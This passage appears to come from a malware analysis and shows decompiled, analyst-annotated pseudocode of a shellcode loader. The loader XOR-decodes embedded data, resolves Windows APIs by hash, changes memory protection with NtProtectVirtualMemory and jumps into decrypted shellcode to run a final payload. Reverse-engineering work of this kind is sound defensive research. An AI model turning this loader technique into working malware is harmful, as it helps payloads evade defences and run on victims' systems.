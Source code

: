 ```cpp
                                               &dataInfo.fixingCodeTable.len);
    dataInfo.moduleInfo.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                          (__int64)encDataInfo,
                                          &dataInfo.moduleInfo.len);
    dataInfo.apiHashesInfo.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                             (__int64)encDataInfo,
                                             &dataInfo.apiHashesInfo.len);
    dataInfo.xorKeyInfo.pData = (void *)fn_get_data_ptr_n_update_struct_fields(
                                          (__int64)encDataInfo,
                                          &dataInfo.xorKeyInfo.len);
    v12 = fn_align_4096(dataInfo.shellcode.len) + dataInfo.num_0xE0 + dataInfo.dataInfo1.len + dataInfo.dataInfo2.len;
    pData_1 = (void *)fn_call_NativeAPI((__int64)api_info, 0, v12 + 8 * num_0x22, 12288, 4);
    pData = (__int64)pData_1;
    if ( pData_1 )
    {
      fn_init_struct_object(encDataInfo, pData_1, v12 + 8 * num_0x22);
      v13 = (char *)fn_updateDataPtrInObj((__int64)encDataInfo, v12);
      v14 = fn_return_argv1(encDataInfo);
      resolved_API_Array = (__int64 *)fn_updateDataPtrInObj((__int64)encDataInfo, v14);
      fn_call_align_4096(v13, (signed int *)&dataInfo);
      fn_xor_decode(&dataInfo.dataInfo2, &dataInfo.xorKeyInfo);
      fn_xor_decode(&dataInfo.moduleInfo, &dataInfo.xorKeyInfo);
      pData_1 = (void *)fn_resolve_api_by_hash_and_update(api_info, byte_0x2, &dataInfo, num_0x22, resolved_API_Array);
      if ( (_DWORD)pData_1 )
      {
        v16 = fn_align_4096(dataInfo.shellcode.len);
        pData_1 = (void *)fn_call_ntdll_NtProtectVirtualMemory(
                            (__int64)api_info,
                            (__int64)dataInfo.shellcode.pData,
                            v16);
        if ( (_DWORD)pData_1 )
        {
          fn_ntdll_NtFreeVirtualMemory((__int64)api_info, pData_2, 0);
          sub_401434(&dataInfo, num_0xFFFFFFFF_1, num_0x22, resolved_API_Array);
          fn_init_struct_object(encDataInfo, &updated[n5], 5u);
          finalPayloadSize_0xBA5F = fn_get_4_bytes_and_update_struct_fields((__int64)encDataInfo);
          finalPayloadAddr_0x3753 = fn_updateDataPtrInObj((__int64)encDataInfo, finalPayloadSize_0xBA5F != 0);
          ((void (__fastcall *)(__int64, _QWORD, MW_DATA_INFO *))((char *)dataInfo.shellcode.pData + scOffset_0x3AB))(
            finalPayloadAddr_0x3753,
            finalPayloadSize_0xBA5F,
            &dataInfo);
          return (void *)fn_ntdll_NtFreeVirtualMemory((__int64)api_info, pData, 0);
        }
      }
    }
  }
  return pData_1;
}
```
